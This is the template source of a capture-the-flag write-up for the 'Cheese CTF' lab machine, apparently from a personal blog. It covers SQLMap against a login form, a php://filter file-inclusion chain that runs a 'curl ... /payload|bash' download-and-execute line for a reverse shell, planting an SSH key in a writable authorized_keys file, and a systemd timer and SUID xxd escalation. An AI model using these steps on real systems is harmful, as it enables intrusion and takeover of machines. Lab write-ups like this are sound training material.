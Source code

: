 {% from "macros.html" import console, image, text, code, list, link, header, script, imageModal %}

{{imageModal()}}

{{header("Enumeration", "enumeration")}}

{{text("Running an Nmap scan yields a lot, and I mean a lot of open ports. Almost all of them are not meaningful and are there to throw us off.")}}

{{text("Ports that we should focus on are:")}}

{{list(['22 (SSH)', '80 (HTTP)'])}}

{{text("Upon visiting port 80, we are presented with a cheese shop page.")}}

{{image("../../static/writeups/cheesectf/images/000002.jpg")}}

{{header("Admin page", "admin-page")}}

{{text("There is also a login page.")}}

{{image("../../static/writeups/cheesectf/images/000003.jpg")}}

{{text("We should test if <code class='bg-gray-300 rounded-md px-1'>SQL Injection</code> will work on this form.")}}

{{text("We catch the request using Burp Suite and then try to use it in SQLMap.")}}

{{image("../../static/writeups/cheesectf/images/000004.jpg")}}

{{console("sqlmap -r request.txt", "...
got a 302 redirect to 'http://10.10.229.61/secret-script.php?file=supersecretadminpanel.html'. Do you want to follow? [Y/n]
...")}}

{{text("We can see that SQLMap got redirected to <code class='bg-gray-300 rounded-md px-1'>?file=supersecretadminpanel.html</code>. We can try to go to this URL.")}}

{{image("../../static/writeups/cheesectf/images/000013.jpg")}}

{{text("We access the admin panel for the website.")}}

{{image("../../static/writeups/cheesectf/images/000005.jpg")}}

{{header("Shell as www-data", "shell-as-www-data")}}

{{text("There is an interesting <code class='bg-gray-300 rounded-md px-1'>?file</code> parameter together with <code class='bg-gray-300 rounded-md px-1'>php://filter</code>.")}}

{{image("../../static/writeups/cheesectf/images/000006.jpg")}}

{{text("While trying to read about PHP filters and how to exploit them, I stumbled upon this:")}}

{{link("https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md#lfi--rfi-using-wrappers", "https://github.githubassets.com/favicons/favicon.svg", "LFI / RFI using php://filter wrappers")}}

{{text("We are instructed to use a <code class='bg-gray-300 rounded-md px-1'>php filter chain generator</code> to generate a PHP chain, which we could use to achieve RCE.")}}

{{link("https://github.com/synacktiv/php_filter_chain_generator", "https://github.githubassets.com/favicons/favicon.svg", "PHP filter chain generator")}}

{{text("We get the Python file and begin constructing our reverse shell.")}}

{{text("We get a reverse shell from <code class='bg-gray-300 rounded-md px-1'>revshells.com</code> and save it in a file.")}}

{{image("../../static/writeups/cheesectf/images/000007.jpg")}}

{{text("We then generate a PHP filter chain that will download our reverse shell and execute it.")}}

{{console("python3 php_filter_chain_generator.py --chain '<?= curl -s -L 10.9.4.147/payload|bash ?>'", "
[+] The following gadget chain will generate the following code : <?= curl -s -L 10.9.4.147/payload|bash ?>
(base64 value: PD89IGBjdXJsIC1zIC1MIDEwLjkuNC4xNDcvcGF5bG9hZHxiYXNoYCA/Pg) php://filter/...")}}

{{text("We set up a netcat listener on the correct port and paste our generated chain into the URL.")}}

{{text("If we did everything correctly, we should now have a reverse shell.")}}

{{image("../../static/writeups/cheesectf/images/000008.jpg")}}

{{header("Shell as comte", "shell-as-comte")}}

{{text("While browsing through the files, we go into <code class='bg-gray-300 rounded-md px-1'>/home/comte/.ssh</code> and discover that the <code class='bg-gray-300 rounded-md px-1'>authorized_keys</code> file is writable by us.")}}

{{image("../../static/writeups/cheesectf/images/000009.jpg")}}

{{text("We just need to add our SSH key into this file, and we will be able to log in as the <code class='bg-gray-300 rounded-md px-1'>comte</code> user.")}}

{{text("Back on our machine, we generate a set of SSH keys.")}}

{{console("ssh-keygen -t rsa", "Generating public/private rsa key pair.
Enter file in which to save the key (/home/user/.ssh/id_rsa): /home/user/php_filter_chain_generator/id_rsa
Enter passphrase (empty for no passphrase):
...")}}

{{text("We copy our <code class='bg-gray-300 rounded-md px-1'>id_rsa.pub</code> key and paste it into the <code class='bg-gray-300 rounded-md px-1'>authorized_keys</code> file.")}}

{{image("../../static/writeups/cheesectf/images/000010.jpg")}}

{{text("We can now log in as user <code class='bg-gray-300 rounded-md px-1'>comte</code> by providing our <code class='bg-gray-300 rounded-md px-1'>id_rsa</code> file.")}}

{{console("ssh comte@10.10.41.67 -i id_rsa", "The authenticity of host '10.10.41.67 (10.10.41.67)' can't be established.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.41.67' (ED25519) to the list of known hosts.
Welcome to Ubuntu 20.04.6 LTS GNU/Linux 5.4.0-174-generic x86_64 ...")}}


{{text("We are able to read the <code class='bg-gray-300 rounded-md px-1'>user.txt</code> flag now.")}}

{{header("Shell as root", "shell-as-root")}}

{{text("Running <code class='bg-gray-300 rounded-md px-1'>sudo -l</code> reveals a lot of useful information.")}}

{{console("sudo -l", "User comte may run the following commands on cheesectf: 
(ALL) NOPASSWD: /bin/systemctl daemon-reload 
(ALL) NOPASSWD: /bin/systemctl restart exploit.timer 
(ALL) NOPASSWD: /bin/systemctl start exploit.timer 
(ALL) NOPASSWD: /bin/systemctl enable exploit.timer")}}

{{text("If we read the <code class='bg-gray-300 rounded-md px-1'>/etc/systemd/system/exploit.service</code> service, we see that it copies <code class='bg-gray-300 rounded-md px-1'>xxd</code> to <code class='bg-gray-300 rounded-md px-1'>/opt</code> and adds a <code class='bg-gray-300 rounded-md px-1'>SUID bit</code> to it.")}}

{{text("If we try to run <code class='bg-gray-300 rounded-md px-1'>exploit.timer</code>, it fails.")}}

{{text("This is because the <code class='bg-gray-300 rounded-md px-1'>OnBootSec</code> value is not present in the file.")}}

{{text("We have to modify it for it to run.")}}

{{image("../../static/writeups/cheesectf/images/000011.jpg")}}

{{text("Now, after running the service, a <code class='bg-gray-300 rounded-md px-1'>SUID bit</code> should have been added to the <code class='bg-gray-300 rounded-md px-1'>xxd</code> binary.")}}

{{text("We can use the method from <code class='bg-gray-300 rounded-md px-1'>GTFObins</code> to read the flag.")}}

{{link("https://gtfobins.github.io/gtfobins/xxd/#file-read", "https://gtfobins.github.io/assets/logo.png", "xxd | GTFObins")}}

{{image("../../static/writeups/cheesectf/images/000012.jpg")}}

{{script()}}